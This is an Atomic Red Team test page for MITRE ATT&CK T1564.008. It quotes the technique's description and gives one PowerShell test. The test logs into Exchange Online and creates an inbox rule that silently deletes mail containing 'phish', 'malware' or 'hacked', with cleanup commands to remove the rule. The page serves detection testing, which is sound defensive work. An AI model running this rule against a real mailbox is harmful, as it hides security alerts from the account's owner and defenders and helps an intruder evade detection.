 # T1564.008 - Hide Artifacts: Email Hiding Rules
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/008)
<blockquote>

Adversaries may use email rules to hide inbound emails in a compromised user's mailbox. Many email clients allow users to create inbox rules for various email functions, including moving emails to other folders, marking emails as read, or deleting emails. Rules may be created or modified within email clients or through external features such as the <code>New-InboxRule</code> or <code>Set-InboxRule</code> [PowerShell](https://attack.mitre.org/techniques/T1059/001) cmdlets on Windows systems.(Citation: Microsoft Inbox Rules)(Citation: MacOS Email Rules)(Citation: Microsoft New-InboxRule)(Citation: Microsoft Set-InboxRule)

Adversaries may utilize email rules within a compromised user's mailbox to delete and/or move emails to less noticeable folders. Adversaries may do this to hide security alerts, C2 communication, or responses to [Internal Spearphishing](https://attack.mitre.org/techniques/T1534) emails sent from the compromised account.

Any user or administrator within the organization (or adversary with valid credentials) may be able to create rules to automatically move or delete emails. These rules can be abused to impair/delay detection had the email content been immediately seen by a user or defender. Malicious rules commonly filter out emails based on key words (such as <code>malware</code>, <code>suspicious</code>, <code>phish</code>, and <code>hack</code>) found in message bodies and subject lines. (Citation: Microsoft Cloud App Security)

In some environments, administrators may be able to enable email rules that operate organization-wide rather than on individual inboxes. For example, Microsoft Exchange supports transport rules that evaluate all mail an organization receives against user-specified conditions, then performs a user-specified action on mail that adheres to those conditions.(Citation: Microsoft Mail Flow Rules 2023) Adversaries that abuse such features may be able to automatically modify or delete all emails related to specific topics (such as internal security incident notifications).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - New-Inbox Rule to Hide E-mail in M365](#atomic-test-1---new-inbox-rule-to-hide-e-mail-in-m365)


<br/>

## Atomic Test #1 - New-Inbox Rule to Hide E-mail in M365
This test simulates a user adding an inbox rule in M365 to delete emails with specific keywords in email subject or body.
 Reference: https://www.mandiant.com/sites/default/files/2021-09/rpt-fin4.pdf

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 30f7d3d1-78e2-4bf0-9efa-a175b5fce2a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | M365 Username | string | john@contoso.com|
| auth_password | M365 Password | string | p4sswd|
| mail_rulename | Name of the inbox rule. | string | default|
| target_mailbox | Mailbox you are creating the rule in | string | jane@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-ExchangeOnline -Credential $credential -ErrorAction:SilentlyContinue
New-InboxRule -Mailbox #{target_mailbox} -Name #{mail_rulename} -SubjectOrBodyContainsWords ("phish","malware","hacked") -Confirm:$false -DeleteMessage:$true
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-ExchangeOnline -Credential $credential
Remove-InboxRule -Mailbox #{target_mailbox} -Identity #{mail_rulename} -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name ExchangeOnlineManagement -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement -Force
```




<br/>
